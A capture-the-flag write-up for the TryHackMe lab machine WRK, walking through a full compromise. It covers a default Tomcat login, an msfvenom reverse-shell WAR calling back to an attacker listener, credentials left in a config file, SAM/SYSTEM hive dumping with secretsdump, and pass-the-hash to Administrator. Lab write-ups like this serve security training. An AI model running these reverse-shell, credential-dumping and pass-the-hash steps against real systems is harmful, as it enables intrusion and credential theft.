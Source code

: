 # WRK.TRYHACKME.LOC

## Machine Information

Domain Name: tryhackme.loc

Machine name: WRK

## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 --open -oN port_scan.txt wrk.tryhackme.loc -Pn

Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 16:14 CEST
Nmap scan report for wrk.tryhackme.loc (10.200.150.20)
Host is up (0.049s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-08-09T14:17:29+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TRYHACKME
|   NetBIOS_Domain_Name: TRYHACKME
|   NetBIOS_Computer_Name: WRK
|   DNS_Domain_Name: tryhackme.loc
|   DNS_Computer_Name: WRK.tryhackme.loc
|   DNS_Tree_Name: tryhackme.loc
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-09T14:16:49+00:00
| ssl-cert: Subject: commonName=WRK.tryhackme.loc
| Not valid before: 2025-04-09T09:59:17
|_Not valid after:  2025-10-09T09:59:17
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp open  http          Apache Tomcat (language: en)
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.50
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (91%), Microsoft Windows 10 1903 - 21H1 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-08-09T14:16:51
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   48.98 ms 10.250.1.1
2   49.35 ms wrk.tryhackme.loc (10.200.150.20)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.06 seconds

```



## Ports Enumeration

### 8080 - Apache Tomcat

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The version 8.5.50 doesn't seem vulnerable.

Try to authenticate into the page clicking in the "Manage App" button. And try with some possible default password of TomCat:&#x20;

```
Apache Tomcat Host Manager (web)	admin	admin
Apache Tomcat Host Manager (web)	ADMIN	ADMIN
Apache Tomcat Host Manager (web)	admin	<blank>
Apache Tomcat Host Manager (web)	admin	j5Brn9
Apache Tomcat Host Manager (web)	admin	tomcat
Apache Tomcat Host Manager (web)	cxsdk	kdsxc
Apache Tomcat Host Manager (web)	j2deployer	j2deployer
Apache Tomcat Host Manager (web)	ovwebusr	OvW*busr1
Apache Tomcat Host Manager (web)	QCC	QLogic66
Apache Tomcat Host Manager (web)	role1	role1
Apache Tomcat Host Manager (web)	role1	tomcat
Apache Tomcat Host Manager (web)	role	changethis
Apache Tomcat Host Manager (web)	root	root
Apache Tomcat Host Manager (web)	tomcat	changethis
Apache Tomcat Host Manager (web)	tomcat	s3cret
Apache Tomcat Host Manager (web)	tomcat	tomcat
Apache Tomcat Host Manager (web)	xampp	xampp
```

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

With the `tomcat : s3cret`  creds we are in.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Craft WAR payload with msfvenom

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.250.1.6 lport=9009 -f war -o shell.war
```

And start a listener with netcat

```
nc -lvnp 9009
```

Upload the WAR payload and then open the application from the Management page

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We dive into this page and a connection has been establish

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>







## Lateral Movement

### Credentials in Tomcat conf file

Checking in configuration file i found this interesting file with new credentials

```
more C:/tomcat/apache-tomcat-8.5.50/conf/tomcat-users.xml

<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users>
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
<!-- Note:  Keeping credentials as default. Migration to the AD user is not yet fully working. Will be fixed in the future
<user username="svc.callback" password="qvBVAj9avM3ykcbf9s" roles="manager-gui"/>
 -->
</tomcat-users>
```

New credentials: `svc.callback : qvBVAj9avM3ykcbf9s`&#x20;



### Access through WinRM

Try this credentials found with `evil-winrm` tool.

```bash
evil-winrm -i wrk.tryhackme.loc -u 'svc.callback' -p 'qvBVAj9avM3ykcbf9s'
```

This command allow us to access into the WRK machine as `svc.callback` user.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

### Windows Local Enumeration

With the follow command we can see all information about `svc.callback` user.

```powershell
whoami /all
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

From this information we can understand that the user has:

* **SeBackupPrivilege/SeRestorePrivilege**: this permisions allows an attacker to dump the all file in the system.
* is Group Owner of the local Administratos group
* SeImpersonatePrivilege: this permission allows an attacker to impersonate all authenticated user.
* Is Domain user. With this informations

```bash
User Name              SID
====================== ============================================
tryhackme\svc.callback S-1-5-21-1966530601-3185510712-10604624-3121
```



### Exploit SeBackupPrivilege

An attacker with this privilege can copy the SAM and SYSTEM file querying the registry and extract credentials from this files.

```powershell
cd C:\Temp

reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

{% code title="Evil-winrm shell" %}
```bash
download sam
download system
```
{% endcode %}

```bash
impacket-secretsdump -sam sam -system system LOCAL

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xfa0661c3eee8696eeb436f2bafa060e7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e75f25c6788a558e4f3f49714ed95e41:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:95f2822ae7e725c8e30b2b31f66c1b86:::
[*] Cleaning up... 
```

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Administrator access with Pass-the-Hash

An attacker with the Administrator NTLM could make access to the machine using the Pass-the-Hash technique.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>evil-winrm -i wrk.tryhackme.loc -u 'Administrator' -H 'e75f25c6788a558e4f3f49714ed95e41'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





## Machine Flag

To demostrate that we have compromised this machine, get the machine's flag.

```
more C:\flag.txt

THM{97fcebcc-cc05-4212-bd05-73730eeee0ed}
```



